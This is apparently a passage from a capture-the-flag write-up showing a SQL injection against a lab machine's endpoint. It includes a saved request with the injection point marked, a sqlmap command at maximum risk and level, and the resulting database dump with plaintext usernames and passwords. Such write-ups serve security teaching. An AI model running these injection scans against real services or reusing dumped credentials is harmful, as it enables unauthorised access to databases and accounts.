 <img src="/assets/writeups/2023-06-02-pc/SQLInjection.png" width=1200px alt="SQL Injection intercept">

## Exploitation 

To exploit this vulnerability, let's use sqlmap. 

1. Save the vulnerable request and replace the `'` with a wildcard `*`.

```
# req.txt
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:45793
// [Headers goes here] // 

{"metadata":[{"name":"token","value":"INSERT-VALID-TOKEN-HERE"}],"data":[{"id":"*"}]}
```

Running sqlmap:

```bash
sqlmap -r req.txt --risk 3 --level 5
```
The scan detects that the database is [SQLite3](https://www.sqlite.org/index.html) and dumps it. Since it's a serverless database, we can't find any information about the system. The database consists of two tables: messages and accounts.

If you want to gain a deeper understanding of injecting in SQLite3, make sure to check out [this paper](https://www.exploit-db.com/docs/41397).

```
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+
```
